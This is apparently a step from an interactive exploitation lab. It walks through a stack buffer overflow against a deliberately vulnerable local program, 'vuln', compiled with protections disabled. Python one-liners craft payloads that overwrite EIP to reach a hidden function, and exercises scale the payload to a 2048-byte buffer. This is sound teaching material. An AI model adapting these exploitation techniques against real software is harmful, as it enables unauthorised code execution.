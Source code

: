 # Leverage python for payload crafting 

## Install python

`apt install -y python python3 python-dev python3-dev python3-pip`{{execute}}

## python exploitation:

As a reminder:
- the secretHiddenFunction address is `\xce\x92\x04\x08` in python
- The payload is `./vuln AAAAAAAAAAAAAAAABBBBCCCCDDDDEEEE` with EEEE to be replaced by the above address.

In python2 we can generate a payload with:

`python -c "print('AAAAAAAAAAAAAAAABBBBCCCCDDDD'+'\xce\x92\x04\x08')"`{{execute}}

The 28 characters are called the offset and could be any character. The next 4 bytes are used to overwrite the EIP and must point to the function we want to execute.

Let's try the exploit:

`./vuln \`python -c "print('AAAAAAAAAAAAAAAABBBBCCCCDDDD'+'\xce\x92\x04\x08')"\``{{execute}}

or 

`./vuln $(python -c "print('AAAAAAAAAAAAAAAABBBBCCCCDDDD'+'\xce\x92\x04\x08')")`{{execute}}

Et voila! we have successfully reached a piece of code which is never called, and we no longer have any segmentation fault. Which means that the signal handler is not a strong mitigation.

## What if the buffer size get too large?

Because our buffer size is only 16, it is quite easy to type by hand a larger sequence of character. But what if the buffer size is 2048, or 16384? even with copy-pasting it becomes tedious to crash the programme with a segmentation fault.

Let's modify the size of the buffer to 2048. We will use a command-line editor called vim (Feel free to use `nano` if you are not comfortable with `vim`). If you are stuck in vim, you can quit at any time by typing `<ESC>qa!`.

### Exercise 1: Recompile the programme with a larger buffer

1. open the source file in vim: `vim ./vuln.c`{{execute}}
2. direct jump to the buffer size 16 by typing: `/16<ENTER>`
3. change the word (cw) under the cursor with the value 2048: `cw2048`
4. save and quit with: `<ESC>ZZ` or `<ESC>wq` (write then quit)
5. Recompile: `gcc -m32 -O0 -fno-stack-protector -no-pie -z execstack  -o vuln vuln.c`{{execute}}
6. Check the symbol address of the secretHiddenFunction

## Exercise 2: generate a large payload 

1. Generate a large payload: `python -c "print('A'*2048 + 'B'*4 + 'C'*4 + 'D'*4 + 'E'*4 + 'F'*4)"`{{execute}}
2. Pass the payload as an argument to the ./vuln programme
3. Identify in our payload which group of 4 bytes is overwriting the instruction pointer
4. Replace the 4 bytes in our payload with the symbol address of the secretHiddenFunction)
5. Execute the exploit

Don't forget Endianess (a concept we will explore another time).

Have you been successful to get the secretPassword? if Yes, move to next step, otherwise try harder.
